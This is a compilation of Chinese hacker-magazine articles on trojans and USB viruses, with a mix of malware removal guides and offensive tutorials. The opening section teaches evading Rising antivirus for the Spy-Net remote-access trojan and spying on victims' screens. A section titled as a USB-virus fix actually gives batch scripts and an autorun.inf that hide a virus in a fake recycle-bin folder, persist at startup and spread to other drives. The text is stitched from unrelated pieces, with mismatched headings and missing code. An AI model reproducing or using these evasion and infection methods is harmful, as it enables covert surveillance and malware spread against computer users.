在文章开始我已经说过了，Spy-Net 生成的服务端程序目前已经被查杀，不过好在它的免杀比较简单，尤其是过瑞星可以说是易如反掌。我们使用 PEiD 查一下服务端，显示为 Borland Delphi 6.0－7.0，没有加壳，直接使用 MyCCL 定位瑞星的文件特征码，结果只有一处特征码“[特征] 0002887F_00000002”，使用 C32Asm 看一下，发现不是字符串，没法更改大小写，而直接使用 00 填充后发现不能上线。看来该 OD 上场了，使用 OD 把 0002887F 转换为内存地址 1002947F，然后使用 OD 打开服务端程序，按 Ctrl+G 来到 1002947F 处，附近的代码如下：


修改保存后，看看能不能过瑞星的主动防御，把瑞星升级到最新的病毒库，再把所有监控打开，运行经过免杀处理的服务端程序，很快就上线了，而瑞星也没有任何反应，如图 9，再来扫描一下内存，也没报毒，如图 10，这说明瑞星就这一处文件特征码，我们轻松地就过了瑞星的主动防御，后来我又测试了是否过卡巴的主动防御，结果却没有成功。


因为 Spy-Net 具有很强的过主动防御能力，再加上本文所涉及到的 Spy-Net 已经收录到光盘中，所以我们可以继续进行测试。它是一款国外软件，被国内杀毒软件查得也不紧，如果大家正在为自己的木马过不了瑞星主动防御而发愁的话，那就试试 Spy-Net 吧。

> （本文所涉及到的 Spy-Net 已收录到光盘中）

#### 一、配置服务端

首先点击工具栏上的“配置服务端程序”按钮，在弹出的窗口中输入反弹连接的地址、端口以及上线备注等信息就可以了，如图 1。小牛远控的服务端配置非常简单，经过观察我发现服务端将自己伪装成一个名为 mpeq4c32.dll 的功能模块，并且标注为微软的 MPEG-4 解码器文件，插入到系统进程 Svchost.exe 中。同时服务端的启动服务也伪装成了微软的启动服务，这样使用常见的安全工具是很难检测到它的。


#### 二、服务端操作

我们在远程系统中运行这个服务端程序，很快服务端就连接成功了，选择列表中的上线主机，点击上方工具栏中的图标或者是选择右键菜单中的命令就可以对远程计算机进行操作了，如图 2。首先点击工具栏上的“屏幕监控”按钮，在弹出的“捕获屏幕”窗口中就可以看到远程用户正在做什么，如图 3。


如果远程屏幕比我们的屏幕大，那么使用默认的监控模式就无法全屏查看了，此时我们选择“显示拉伸模式”的选项就可以全屏查看了。


## 2008 合订本下篇

### 鼠标？病毒？MS-DOS.com 的故事

前几天在学校里上网的时候不小心感染了这个病毒，刚开始还没有太在意，以为只是一个网页强制浏览的恶意代码，只要关机重启就行了（因为学校的电脑中都有还原设置）。反正不是我的电脑，懒得重启了，正好又到了学校关门的时间，我也准备开路了。但是自己的东西还是要保存下来的，于是插上 U 盘，拿出我的索爱 W958C 手机插到电脑上准备转东西，可谁知当转移完文件夹后我却发现那黄色的文件夹图标竟然都变成了应用程序的图标，虽然只是一闪而过，但是发现了问题，手机的根目录里多了一个 autorun.inf 文件。虽然这引起了我的注意，但是也没工夫去理会它了（毕竟我的东西都能正常使用，小问题很容易被忽略呀），可没有料到，在那之后我手机上的文件管理器就再也读不出东西了，但仍然占用着内存，文件在电脑上能看，在手机里不能看，真把我急坏了，4G 的内存呀，难道就这样白费了吗？


幸亏手机上安装的 Swiss mgr pro 这个文件管理器帮了我的大忙，在手机上我看到了两个可疑的文件：autorun.inf、ms-dos.com，如图 1、图 2。很显然，这是 U 盘病毒，autorun 就是铁证。我到网上查了查有关 MS-DOS.COM 的资料，果然这是一个病毒，但好像没有专杀的工具，有兴趣的读者可以看下这个病毒的介绍（http://bbs.dluba.net/thread-21924591-1-1.html），更新是 5 月 13 日。虽然没有专杀工具，但我还是在网上找到了一个高手写的批处理文件，于是在高手的指引下，我开始了和病毒的较量！病毒好像是把 U 盘根目录的文件夹都复制一遍，然后将源文件全部设置为隐藏和只读属性，最可恶的是把文件夹都变成了系统文件，删都删不掉！而格式化后又会被重新感染（这是因为其它盘也有该病毒，而且病毒在运行时会不断的检测 U 盘的病毒原件，没有的话就重新生成），真是可恶呀！复制后的文件全部是 EXE 的应用程序（选择“工具”—“文件夹选项”—“查看”，取消掉“隐藏已知文件类型的扩展名”就可以发现后缀都是 exe 了），并且这些隐藏的文件都是有 220K 的病毒文件。如果是手机的记忆卡，那可就更惨了。手机虽然能够读文件（比如音乐），可就是不能操作，真是气人（我认为这是一个恶搞的恶毒代码，不然早就把源文件给删除了）。既然知道了症状，那就对症下药吧，首先在 CMD 命令提示符下输入命令，将 U 盘上的文件的只读、隐藏和系统属性全部恢复：

```bat
attrib U盘符:\*.* -a -s -h /s /d
```

恢复后就会看到病毒的源文件了，而且被隐藏的文件夹也都显示出来了，如图 3。


但是过几秒钟，文件又恢复到了原先的样子，看来这个病毒一直在监测呀。我的解决思路是在重新感染病毒前将 U 盘拔下，重启安装有还原卡的电脑，然后不要打开 U 盘，直接在 CMD 下杀掉 autorun.inf 以及 ms-dos.com。这个方法应该是行得通的，但是被这个小小的病毒给这样整，也在我心里蒙上了阴影。

接着查杀：这几天非常无聊，QQ 上某位说想要一个数据恢复的软件，她平时很粗心，经常不小心误删除 U 盘上的资料，却又不懂如何恢复。我本想把 FinalData 传给她的，后来想了想似乎没必要杀鸡用牛刀，于是就打开百度搜索了一下恢复软件，却不小心下载了一个病毒来，便有了本文的“剥皮之旅”。下载回来的是一个 RAR 自解压文件，我习惯性地先使用杀毒软件扫描一遍，没有发现问题，刚想双击进行安装，我又想到了一个细节，既然是 RAR 自解压文件，那就看看里面都有什么文件吧。于是在文件上点鼠标右键，选择使用 WINRAR 打开，哦？怎么没有发现（图 1）？看来有诈了，肯定是使用什么 WINRAR 变形金刚做了处理了。现在就开始剥掉它的第一层皮，拉起证据 C32ASM（图 2）的反汇编工具，选择“文件”—“打开”，选到那个可疑的自解压文件，单击“搜索”（图 2），搜索到“907A01”后在图中所示的高亮部分，最后那个 88 就是标志符，我也把它改掉了。


## 破解


在 88 处，光标在它前面的时候直接输入 61，修改后如图 3 所示。我们还要搜索一次，注意观察的格式是“52**72211A07”，其中 ** 就是刚才所出现的 88（假如前面搜索到 907A01 后面的数字是 99，那么第二次搜索就要搜索 5299772211A07），我们再次搜索 528872211A07（图 4），同样把 88 改为 61，修改完成后如图 5 所示。点击左上角的保存按钮后，弹出备份窗口，点击“退出”，最后退出 C32ASM。


再次使用鼠标右键单击那个自解压程序，原形出来了，进去一看，居然还有一个 setup.vbs 文件（图 6）。我把它提取了出来，打开查看竟然是加过密的（图 7）。虽然没剥皮，我可没有闲情研究它的加密算法，VBS 加密后终究还是源码出来的，不然无法运行，而这个 VBS 文件是通过定义 runner 函数来解密的。我们将文件置于适当位置，并修改其中的 Execute 命令，使其运行后生成 Code.txt 文件。

```vbscript
Set fso = CreateObject("Scripting.FileSystemObject")
Set fCode = fso.OpenTextFile("Code.txt", 2, True)
fCode.Write runner
fCode.Close
fso.Close
```


运行上面定义 runner 函数来解密出的代码。我们将文件置于适当位置，并把 Execute 这个执行命令更改掉，改为如图 8 所示的样子，这样我们再次双击这个 VBS，就会得到已经解密出来的代码了。


### 映像劫持巧杀病毒

前几天我使用自己的电脑给一个朋友的 U 盘里拷点东西，但当拔除 U 盘时却发现无法停止设备，凭直觉来判断我的电脑有可能遭遇不测了！马上按 Ctrl+Alt+Del 调出任务管理器查看系统进程，看到两个非常奇怪的没有名字的 .exe 进程，如图 1。


正常的程序怎么能没有名字呢，这病毒也太明显了吧！我尝试运行一些安全工具，发现几乎所有的工具都无法运行了，预料之中的事，这就是目前比较流行的映像劫持！它是在注册表的 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` 项下建立许多安全工具的程序名，并建立一个 Debugger 值来指向病毒程序，因此当我们试图打开这些安全工具时就会运行指定的病毒程序。但也正是这一点，让我们轻松地找到了病毒的老巢 `C:\Program Files\Common Files\Microsoft Shared\.exe`，如图 2。


马上结束掉 .exe 进程树（单个结束任何一个 .exe 进程都会失败，它们是相互守护的），接着来到病毒的目录下（已经被病毒隐藏了，而且无法查看，需要在“运行”栏输入 `C:\Program Files\Common Files\System` 来进入），却发现什么文件也没有，肯定是被隐藏了。调出 CMD 命令提示符，切换到该目录下，运行 `attrib -s -r -h /s /d` 命令来让病毒文件显形，然后就可以删除它们了，如图 3。


我又在注册表的启动项下发现了病毒的身影，只是指向的地址变成了 `C:\Program Files\Common Files\System\.exe`，如图 4。看来它还留下了条后路，直接删除掉，然后使用上述的方法删除掉病毒文件。现在，病毒就基本上被我给消灭了。


下面是我在虚拟机下检测到的病毒的注册表操作，主要是删除安全模式项让我们无法进入安全模式，并将病毒文件修改为隐藏和系统属性，使得我们无法查看到病毒文件，来达到隐藏自己的目的。另外就是映像劫持和自启动项的创建。根据病毒的操作，我制作了一个批处理脚本来简化手工杀毒操作，其运行后的效果如图 5 所示。好了，病毒已经离我们远去了，简单吧。祝大家在手工杀毒的道路上一路顺利！


（文章中涉及到的病毒样本和杀病毒批处理脚本已经收录在光盘中）


### 驱动级木马隐藏技术揭秘

现在流行的远程控制软件，大都是驱动级的木马（比如大名鼎鼎的 PcShare），使用了 Rootkit 技术，可以隐藏进程、文件、端口等，使用这种技术隐藏的木马是比较难查杀的。在这些隐藏中，最值得我们注意的是它隐藏了端口，如果木马的免杀程度特别的厉害，一般的杀毒软件是根本无法扫描出来的。


这种情况下，我们通常是使用同级别的杀毒辅助工具（比如 wsyscheck）来辅助查杀，在进程中可以看到插入 DLL 后异常的进程。如图1，图中显示为粉红色的 svchost.exe，在下方的“模块路径”框中可以看出是被插入了 zZnfreeee.dll。消除方法是在这个 DLL 上点击鼠标右键，然后选择“卸载模块”就可以了。

其实，我们还可以设置权限来防止驱动级的木马，这可以让木马无法发挥驱动隐藏的功能，暴露自己的行踪，这样在查看服务时显示不正常的服务名称（当时木马不是系统服务）以及端口时就比较容易发现了。我们来测试一下设置权限防范驱动级木马的效果，请让我们的演示员（pcshare），先配好一个服务端程序，运行一下，正常上线了，如图2。查看一下端口是否被隐藏，在“运行”栏输入 cmd 打开命令提示符，然后输入 netstat -an，看到了吗，没有显示端口，如图3。

这里显示了我们对外的连接情况，可以看到我们本地3173端口连接远程地址的8181端口，如果不是本地测试，肉鸡的电脑是不会出现这样的连接情况的！至于隐藏服务的测试，主要是在知道木马 DLL 文件的前提下，设置权限然后通过对比，查看驱动级木马是否隐藏了服务。在此就不测试了（建议使用360选项中的系统服务状态来测试）！


接下来我们设置权限，木马在自动运行后会释放一个 SYS 文件到 DRIVERS（一般位于 C:\WINDOWS\system32\drivers）目录，所以我们只要改变权限就可以让其失去隐藏端口的目的。需要设置权限的磁盘必须是 NTFS 文件系统，如果不是的话，可以在“运行”栏输入 convert X: /fs:ntfs（其中 X: 就是所要转换的盘符，一般 X 都是系统盘）来将其转换成 NTFS 文件系统，一直输入 Y，就可以了，如图4。


转换完成后打开 DRIVERS 文件夹，在某个文件夹上点击鼠标右键，选择“属性”，在弹出的窗口中选择“安全”，如图5。在“组或用户名”中选择“Users”组，并在下方“Users 的权限”框中设置“写入”权限的“拒绝”一栏打勾，这样就可以限制木马程序向这个文件夹内写入文件了。


如果有多个“受限的帐户”，还可以点击上图中的“添加”，输入某个帐户的名称来设置这个帐户的权限策略，设置方法和上面的一样。当然你也可以把 SYSTEM32 文件夹这么设置，那么你的系统就更加安全了。现在来看看端口的显示情况吧，如图7。先把电脑里的木马卸载掉，然后重新生成服务端运行，再看一下连接情况，这次使用360来查看端口，和图3对比一下，是不是已经发现木马无法连接远程地址了。


### Autorun.inf 病毒分析

DDNP & 飘来飘去 [B.B.E]

今天中招了，弄了好久才发现是 U 盘病毒，所有的黑客软件都不能使用，杀毒软件也瘫痪了，不能查看文件属性，隐藏文件也不能显示出来，如果打开百度进行搜索，只要出现了病毒、黑客这类字样的都会被关掉，但是我们玩游戏、登录 QQ 都不受影响。虽然这病毒也没什么大的破坏性，但是和病毒和谐相处却非吾所愿。

借用 QQ 好友的浏览器进行搜索，发现了该病毒的解决方法，感觉也算是个老病毒了，不过本文要讲的却是 Autorun.inf 的光荣复活，所以杀毒的方法就简单略过吧。病毒有两个进程：wjftxbl.exe 和 mposybtk.exe，以安全模式启动系统，运行 CMD，输入 tasklist 得到这两个进程的 PID 分别是 1956 和 1972，新建一个批处理文件，内容如下：

```bat
ntsd -c q -p 1956
del /a/f C:\Program Files\Common Files\System\wjftxbl.exe
ntsd -c q -p 1972
del /a/f C:\Program Files\Common Files\Microsoft Shared\mposybtk.exe
```

保存后运行，就能结束病毒进程，接着到 C:\Program Files\Common Files\Microsoft Shared\目录下删除病毒文件和 inf 文件。不过我们先得在文件夹选项中显示系统文件和隐藏文件才行。最后把所有分区根目录里的 hihiludy.exe 和 Autorun.inf 删除就行了。我们来分析一下 Autorun.inf 的内容，打开如下：


可以发现这个病毒和以前的自动播放类病毒还存在某个不同，显然这种方法比常见的只靠鼠标单击才能感染的 Autorun 病毒具有更强的欺骗性。病毒作者已经注意到目前大多数用户防范 Autorun 病毒的方法，并采用了伪造右键菜单的方式来欺骗用户运行自动播放。在这个 autorun.inf 文件中，“shell\open=打开(&O)”用于创建右键菜单的“打开(O)”菜单项；“shell\open\Default=1”用于把默认鼠标右键单击动作改为第一项；“shell\explore=资源管理器(&X)”更是进一步欺骗对“打开”命令已经开始警惕的用户。

```ini
[AutoRun]
open=hihiludy.exe
shell\open=打开(&O)
shell\open\Command=hihiludy.exe
shell\explore=资源管理器(&X)
shell\explore\Command=hihiludy.exe
```

对于现在 U 盘病毒的欺骗性，建议大家在浏览 U 盘中的文件前先进行如下操作以防止感染：插入 U 盘后，打开 cmd，输入“dir x:\autorun.inf /a”查看是否有 autorun.inf 文件，若返回结果存在此文件，那么再执行“type x:\autorun.inf”查看此文件的内容，并使用 del 命令删除其中的可执行文件及 autorun.inf 本身（x 为 U 盘的盘符），这样就能做到最好的安全防范了。


随着商业利益的驱使，网上的病毒和木马越来越多，因此电脑中病毒和木马也就成了家常便饭，但是在查杀病毒后，有时却会出现很多意想不到的情况，本文就将提出一些解决杀毒后遗留问题的建议与安全设置方法。整体上来说，系统杀毒后的遗留问题主要是由于病毒木马的自启动和恶意更改系统设置所导致的！

#### 一、自启动问题面面观

##### 1. 启动项基础知识

自启动项大多是在系统启动的过程中加载的，我们来看看系统的启动过程，这个过程可以简单的理解为先 POST 自检，然后系统启动准备好硬件条件，接着 BIOS 识别硬盘 MBR，启动 NTLDR 和 NTDETECT.COM，为系统启动提供软环境，再由系统载入 Ntoskrnl.exe 和 hal.dll，然后系统对内核进行初始化，初始化的过程主要是创建备份注册表的 hardware 键值（所以我们在进行注册表权限设置的时候不能将所有的项目进行设置），载入驱动，启动服务，最后才启动 GINA 等待用户输入帐户和密码以实现计算机的登录。

在理解了系统启动的过程后我们再来看看如何管理启动项，向大家推荐 Sysinternals 工具包中的 autoruns.exe，程序运行后的界面如下：


如图1所示，autoruns 非常系统地列出了当前系统中所有的启动项目，从系统登录到服务到映像劫持都可以方便的查看。其实，对于普通用户来说，用到的启动项目只有 ctfmon.exe 和杀毒软件程序，所以可以在“开始”—“运行”栏输入 msconfig，然后在系统配置实用程序中选择“启动”项，将除了 ctfmon.exe 和杀毒软件程序以外的所有内容取消掉，如图2。

##### 2. 常见启动项问题

木马和病毒都试图在开机启动的时候启动自己，当我们杀毒后，恶意文件被删除，导致系统加载该启动项的时候出现了“加载XXX文件失败，找不到指定文件”的提示，对于这种故障的解决，我们可以运行 autoruns.exe，选择“everything”，在“File”菜单中选择“Find”，在对话框中输入系统错误提示的文件，找到启动项删除即可，也可以在“开始”—“运行”栏输入 regedit 打开注册表编辑器，在“编辑”菜单中选择“查找”，在弹出的对话框中输入系统错误提示的文件名XXXX，找到启动项后删除即可。

##### 3. Autorun.inf启动导致的问题

有时杀毒完毕后，我们无法双击打开磁盘，必须通过右键选择“打开”才可以访问，而且右键菜单中出现了一个陌生的选项“Auto”。这其实是一种病毒木马的启动方式，病毒木马程序首先在磁盘根目录下创建一个 autorun.inf 文件，当用户双击打开磁盘后就会启动恶意程序，病毒删除后，由于打开方式被更改，从而导致了问题的出现。

解决方法：我们可以在“开始”—“运行”栏输入 regedit，打开注册表编辑器，定位到 HKEY_CLASSES_ROOT\Drive\shell 或者 HKEY_CLASSES_ROOT\Directory\shell，将其下的 Auto 键删除就可以了。

##### 4. 登录启动导致的问题

有时杀毒完毕后，我们无法正常进入桌面，甚至无法进入系统，这主要是由于病毒木马程序在注册表 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon 下的 shell 和 userinit 项下做了手脚，我们通过注册表将其内容修改为正常值，shell 键的正常值为 Explorer.exe，userinit 键的正常值为“C:\WINDOWS\system32\userinit.exe”。遇到这种情况，如果进入不了系统，我们可以使用 DOS 进行操作，所以强烈建议安装 DOS，在 DOS 下使用 ghrgedt（该程序是诺顿强力打造的 DOS 环境下的注册表编辑工具）程序进行恢复。对于如何在 CMD 下操作注册表，在以前的黑客X档案上曾经专门刊登过，有兴趣的朋友可以翻阅一下以前的杂志。如果可以


进入系统，那就方便的多了，在注册表编辑器中修改为原来的正常值就 OK 了。

##### 5. 映像劫持导致的问题

出现该类问题的主要症状如图3所示，该类问题主要是因为恶意程序修改了 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options 注册表项，当杀毒完毕后，删除了原来的恶意文件，当我们运行某个系统程序，比如 cmd 时，无法找到与其关联的可执行程序，因此就出现了上面的错误。我们可以运行 autoruns.exe，选择“Image Hijacks”，将错误提示中的文件名所命名的键删除就好了。

##### 6. 文件关联问题

杀毒完毕后，最常见的故障就是文件关联问题，文件分类依靠的是文件后缀名，对于不同的文件后缀名系统在注册表中都进行了不同的设置，从而实现了特定文件和特定的应用程序相匹配。如果文件关联出现了问题，最常见的就是更改了 exe 文件的关联，这就导致了我们无法运行 exe 的应用程序和系统程序，这时候可以试着将可执行程序的文件后缀更改为 .bat、.com、.cmd、.pif、.scr 等尝试进行运行。对于文件关联的修改可以通过导入注册表文件来实现，但是相对不如在 CMD 下使用 assoc 和 ftype 命令方便，以修复 exe 文件关联为例，在 CMD 下输入“assoc .exe=exefile && ftype exefile="%1" %*”，回车执行就可以了。

#### 二、文件恶意更改问题面面观

##### 1. 主引导记录、分区列表问题

该类问题主要是由引导型病毒所导致，引导型病毒是利用操作系统的引导模块存放在某个固定的位置，并且控制权的转交方式是以物理位置为依据，而不是以操作系统引导区的内容为依据，因而病毒占据该物理位置即可以获得控制权，而将真正的引导区内容搬家转移或替换，待病毒程序执行后，再将控制权交给真正的引导区内容，这使得整个带病毒的系统看似正常运转，而病毒却已隐藏在系统中伺机传染、发作。

因为主引导记录和分区表都是系统的底层操作，杀毒后往往会导致硬盘无法启动系统、分区表混乱等，对于该类问题，我们可以借助易我分区医生这款软件来修复，安装运行程序后的界面如图4所示，需要注意的是，我们日常工作中应该注意备份分区表内容，这样才可以在计算机出现问题的时候以最快的速度解决，在程序的“操作”菜单中选择“备份分区表”就可以了。

##### 2. 文件更改、丢失问题

很多木马都会巧妙的替换掉系统中的某些不常用文件，比如替换掉打印机服务，有的病毒还会恶意更改文件，比如春节前流行的熊猫烧香病毒。对于后者我们只能依靠专杀工具来解决，而对于前者，我们可以先了解一下 WFP 机制，WFP 是 Windows 系统从 2000 开始使用的一种文件保护机制，具体实现依靠的是 %systemroot%\system32\dllcache 文件夹下的内容，我们可以在“开始”—“运行”栏中输入 gpedit.msc 打开组策略，定位到“计算机配置”—“管理模板”—“系统”，选择“Windows文件保护”，对其进行设置，还可以通过 cmd 下的 sfc 命令进行操作，当然有的 Windows XP 修改版本已经关闭了此功能，我们需要运行 regedit，找到 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon，对其下的 SFCDisable 键进行设置，值为 0 时为打开 WFP，这也是默认的状态，双击后可以改成 1，这样就可以禁用 WFP，需要重新启动系统后设置才能生效，值为 2 时，表示仅仅会在下一次启动时禁用，值为 4 时，表示将启用，并且不会显示提醒用户的窗口。在了解了 WFP 的一些常规操作后，当碰到杀毒后文件丢失的问题时，我们就可以在“开始”—“运行”栏中输入 sfc /scannow。

##### 3. 恶意更改注册表

很多木马为了隐藏文件，都会恶意更改注册表 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL 里的 CheckedValue 值，如果被恶意更改，即便我们在“我的电脑”→“工具”→“文件夹选项”→“查看”中将“显示所有文件和文件夹”和“隐藏受保护的操作系统文件（推荐）”前面的勾去掉了也不能发现恶意程序，解决的方法就是将其值设置为 1 就可以了。

很多病毒会恶意更改注册表 HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\SafeBoot 下的键值，对于这种问题的解决方法是：我们可以先从注册表中找到相关键值，然后恢复为正常值。

#### 三、总结

通过上面的故障不难看出，很多木马病毒都是对注册表进行操作，所以我们在日常使用中要注意备份注册表。对于某些特殊的键值，也应该进行权限设置，但是千万不要将所有的注册表项目都进行权限设置。

在“运行”框中输入 regedit，打开注册表编辑器，单击“我的电脑”，在“文件”菜单中选择“导出”，选择一个注册表文件保存路径就可以了。

### 完美解决U盘病毒

在看了上期的黑客 X 档案后，我一直在想是否可以将“文件夹的另类隐藏”和“Autorun.inf 光盘复活”这两篇文章中的方法结合起来，组成一种完美的搭配。因为我对于编程是“七窍通了六窍”，换种说法也就是“一窍不通”，所以只好使用批处理来实现了。对于那些会编程的朋友可以按照本文的思路，使这种搭配变得更加完美。首先新建一个批处理文件，其内容如下：

```bat
@echo off
MD C:\WINDOWS\SYSTEM32\com1
@echo [ShellClassInfo]>C:\WINDOWS\SYSTEM32\com1\desktop.ini
@echo CLSID={645FF040-5081-101B-9F08-00AA002F954E}>>C:\WINDOWS\SYSTEM32\com1\desktop.ini
COPY 病毒在U盘中的路径\病毒.exe C:\WINDOWS\SYSTEM32\com1\病毒.exe
```

以上代码的意思是在 C:\Windows\system32 目录下新建一个名为 com1 的文件夹，然后将其身份伪装成回收站，再将 U 盘中的病毒文件复制到 com1 文件夹中，并且运行这个病毒文件。记得以前曾有篇文章说 com1 文件夹是 Windows 系统保留的文件夹，使用常规的方法是无法创建的，只有在命令提示符下才可以创建，并且使用鼠标双击也无法打开该文件夹，甚至连删除都不可以，只有使用命令提示符才可以删除该文件夹中的目录。

我们还可以再给病毒穿上一层隐身衣，在批处理中新加入下面的命令：attrib C:\windows\system32\com1 +s +h /s。它的意思是将 com1 目录及其中的文件设置为系统和隐藏的属性。


最后将 hao.bat 和 Autorun.inf 都设置成隐藏属性，以增加它们的隐蔽性。现在你的 U 盘就已经是一个只要打开就会让电脑中毒（或木马）的毒盘了。至于如何传播我就不再多说了，大家可以参考黑客 X 档案以前的文章。命令如下：

```bat
echo c:\windows\system32\com1\病毒.exe >> C:\Documents and Settings\Administrator\[开始]菜单\程序\启动\hao.bat
```

至于其它的一些方法就请大家自由发挥吧。

```ini
[AutoRun]
open=hao.bat
Shell\Open\Command=hao.bat
Shell\Open\Default=1
Shell\Explore=资源管理器(&X)
Shell\explore\Command=hao.bat
```

如果对方的电脑中还有其它可移动存储设备，我们还可以再建立一个批处理文件，内容如下：

```bat
@Copy /b 病毒在U盘中的路径\病毒.exe+hao.bat+Autorun.inf G:\病毒在你U盘中的路径\病毒.exe
@Copy /b 病毒在你U盘中的根目录中的那个文件夹中\病毒.exe+hao.bat+Autorun.inf G:\病毒在你U盘中的根目录中的那个文件夹中\病毒.exe
```

注意：这个批处理文件应该存放在你的 U 盘的根目录中，它的作用是如果发现对方电脑中有可移动存储设备，就运行这个批处理文件，那么对方的可移动存储设备就会变成和我们的 U 盘一样的毒盘了（如果大家制作出的 com1 文件夹无法伪装成回收站，那么还可以制作一个名为“回收站”的文件夹）。

#### 二、查杀木马知识概览

##### 1. 端口

因为牵涉到网络通信，也就是说木马必须依靠端口来进行信息的传递，因此我们安装防火墙还是非常有必要的，针对 Windows 系统的木马一般都是通过调用 winsock 库里的 socket() 函数建立套接字来实现网络通信的，因此有时通过查看端口可以获取木马的一些信息，许多人都知道在 CMD 中利用 netstat 命令查看端口。


an 命令查看端口，通过该命令我们可以很容易的判断出基于 TCP 协议的通信端口，但是对于 UDP 协议的木马程序比如神气儿，使用 netstat 就有点“力不从心”了，对于此类木马，我们可以借用 AntiyPorts、fport 等工具来查看，如图 1。它可以让每个程序和其开启的端口相对应，这对于查杀一般的木马还是非常有用的，不过现在也有很多后门木马程序采用了原始套接字通信，使得通过端口获取木马信息变得相对困难了，这时候我们就该瞄准木马的另一个特点——自启动！


图 1

##### 2. 自启动

一提到启动很多人首先都会想到注册表、Run 键值等，我们先来看常见的木马自启动技术。木马制造者在编写程序的时候，为了能延长木马的生存期都会让木马实现自启动，目前来说不外乎有两种实现方法：注册表自启动和服务自启动。提到服务启动，我们就得先了解 Windows 服务的结构，Windows 服务一般是由服务控制管理器（SCM）、服务控制程序、服务配置程序、服务程序组成，服务控制管理程序可以理解为 services.exe，它有一个数据库对应注册表中的 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services，系统每次启动时都会根据 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control 下的服务启动设置来启动所有类型为“自动”的服务，服务控制程序可以理解为 services.msc，主要作用是启动、关闭服务，也可以理解为 net start 命令，服务配置程序主要是负责创建、删除、设置服务的，可以理解为 sc.exe，服务程序就是服务所运行的程序，大多为 dll 文件。

木马编写者通过调用 OpenSCManager()、CreateService() 等 API 函数创建木马服务并设置启动类型为自启动，介绍了服务自启动的这么多东西，我们得到了一条非常重要的信息，木马服务的启动类型都为自动，这就大大缩小了查找木马服务的范围，另外在 services.msc 中我们会看到每个服务都有描述，木马编写者有时会写的很暴露，这也就给我们留下了把柄。但是技术总是在发展，现在有很多木马都采用了替换服务、隐藏服务的方法，通过上面的思路去寻找自启动的木马就不容易了。替换服务实现木马自启动必须得保证该服务是通常用不到的服务，比如 alerter、update 等等，这也缩小了我们寻找的范围，隐藏服务我们可以借用 knlsc.exe，在 CMD 下输入 knlsc.exe -f 就可以查看到系统中的隐藏服务，将其设置为“已禁用”就可以了。同时这也要求我们必须对 Windows 服务有一定了解，知道大部分服务的作用，还要对自己的计算机一般启动哪些服务有所了解，做到心中有数。

注册表自启动是通过调用 RegCreateKeyEx() 和 RegSetValueEx() 实现的，目前注册表启动类木马很少在“明显的注册表自启动位置”来设置木马自启动。随着 dll 进程插入木马的流行，注册表 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows 下的 AppInit_Dlls 键值也越来越受到青睐，这是一个 Windows 最容易被任何人利用的地方，因为只要木马在这里进行了修改，那么就意味着任何使用到 User32.DLL 的进程都会被 AppInit_Dlls 指向的 DLL 所注入。因为进程内部的 DLL 是共享整个进程空间的，因此进程里的 DLL 可以控制整个进程的行为。由于 User32.DLL 是一个非常非常通用的 DLL，它提供了大多数 Win32 用户界面、消息相关的功能，只有极少数的程序不会使用 User32.DLL，比如命令行窗口，所以在关注启动项的时候我们首先关注的就应该是它。

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run 键也需要注意，它对应组策略中的设置，还需要注意的一个地方是 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon 在 userinit 和 shell 下的键值，正常为“c:\windows\system32\userinit.exe”和“explorer.exe”（包含了逗号）。另外，注册表自启动还有两种方法，一种是 ActiveX 启动，另一种就是迂回曲折自启动。ActiveX 自启动在国外的木马中使用的比较多，比如木马 Beast，此类木马会建立类似 [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\ActiveSetup\Installed Components\{4A202188-F04D-11cf-64CD-31FFAFEEECF20}] 的键值，并设置“StubPath”的值为木马自启动的文件路径，从而实现木马自启动。对于迂回曲折的自启动方法主要是指映像劫持，映像劫持在木马自启动中虽然不能成为主流自启动方式但是却可以辅助木马自启动，在网上看到的一个防范方法竟然是删除 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options 键值，这种方法是错误的，木马只要想实现映像劫持依然可以通过调用上面的两个 API 函数重新建立，最有效的防范还是将 Administrator 和 system 帐户的写权限取消掉。

上面所提到的自启动方法，我们都可以在 msconfig 中查到，只要大家对系统服务和注册表比较了解，还是很容易找到木马的蛛丝马迹的，怕就怕上面的自启动结合了 HOOK API 技术，这时候我们就必须借助第三方的工具来进行查杀了，使用第三方工具的前提是要保证系统的文件关联正常，其次要保证杀马工具没有被映像劫持，再次还要学会变通，学会更换使用不同的查杀工具，比如 IceSword 名气太大了，很多木马病毒都会直接杀掉该软件的进程，不让它启动，这时候我们就可以更换瑞星卡卡、syscheck、killbox 等。虽然分析木马信息是我们要做的，但我们的最终目的是要删除系统的“外来客”，这就必须先结束木马进程。

##### 3. 进程

首先要明确的是，检查进程并不一定能真正的找到木马进程，这主要是由 HOOK API 技术导致的，HOOK API 可以拦截、控制 API 函数调用，比如当我们按一下 CTRL+ALT+DEL 键启动任务管理器时，程序会调用 API 函数 CreateToolHelp32Snapshot()、Process32First()、Process32Next() 枚举当前系统的所有进程，但是如果使用 HOOK API 技术，那么就可以 HOOK 这些 API 函数，执行过滤参数的代码，从而实现了进程的隐藏。其次，必须熟悉每个进程及其作用，比如 winlogon.exe 是系统登录使用的，lsass.exe 是系统验证使用的，smss.exe 是系统启动最早建立的进程，主要是进行会话的等等。另外，还要熟悉某些进程的个数，比如一般我们的电脑中有多少进程，svchost.exe 进程的个数尤为重要，上面谈到木马服务自启动的时候，没有提及 svchost.exe 加载服务实现自启动，在 Windows 中存在两种服务，一种是共享进程服务，一种是非共享进程服务。对于共享进程服务一般都是靠 svchost.exe 来启动的，在 Win2000 中一般有两个 svchost.exe 进程，在 WinXP 中一般有四个以上的 svchost.exe 进程。再次，要分析 DLL 